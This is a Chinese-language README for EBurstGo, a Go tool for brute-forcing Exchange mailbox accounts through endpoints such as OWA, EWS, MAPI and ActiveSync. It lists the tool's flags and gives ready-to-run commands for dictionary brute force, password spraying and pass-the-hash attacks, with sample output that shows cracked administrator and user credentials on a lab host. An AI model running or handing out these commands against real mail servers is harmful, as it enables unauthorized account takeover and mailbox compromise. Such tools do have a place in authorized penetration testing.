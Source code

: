 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目使用 Go 语言重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell
```

注意 Releases 中的代码不一定是最新的

建议将本项目 clone 下来然后执行 `goreleaser build --snapshot` 手动编译

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检测目标 Exchange 可用接口
  -debug
    	显示 Debug 信息
  -delay int
    	请求延时
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange Web 接口
  -nocolor
    	关闭输出颜色
  -nosave
    	不将结果输出至文件
  -o string
    	指定结果输出文件 (default "result.txt")
  -pass string
    	指定密码
  -passf string
    	密码字典
  -proxy string
    	指定 socks/http(s) 代理
  -pth
    	指定为 Pth 模式 (Pass The Hash)
  -t int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	指定用户名
  -user-as-pass
    	指定密码与用户名相同
  -userf string
    	用户名字典
  -userpassf string
    	指定用户名密码字典 (user:pass)
  -v	显示详细信息
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[*] 检测目标 Exchange 可用接口
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

默认会将爆破成功的账户追加写入 result.txt

```shell
# 常规爆破
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews

# 指定用户名
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user Alice -passf pass.txt -mode ews

# 密码喷洒
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -pass 'Changeme123' -mode ews

# 支持 user:pass 格式的字典
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userpassf userpass.txt -mode ews

# 密码与用户名相同
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -user-as-pass -mode ews

# Pth 爆破 (pass.txt 为 NTLM Hash)
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -pth

# 设置 socks/http(s) 代理
./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews -socks socks5://127.0.0.1:1080
```

examples

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -userf user.txt -passf pass.txt -mode ews
[*] 用户名:7 密码:9 共计:63
[*] 使用 ews 接口爆破: https://192.168.30.11
[+] 成功: Administrator:abcd1234!@#$
[+] 成功: Alice:Alice123!
[+] 成功: Bob:Bob123!
[+] 成功: Marry:Marry123!
[*] 耗时: 3.031753209s
```

## Todo

- 开启代理使用 NTLM 认证爆破一段时间后出现 `connection refused`, 待解决
  这个目前来说好像没有什么好的解决方法(?) 只能通过将协程数量调小 + 添加延时来避免
- `/powershell` 接口 (Kerberos 认证) 待支持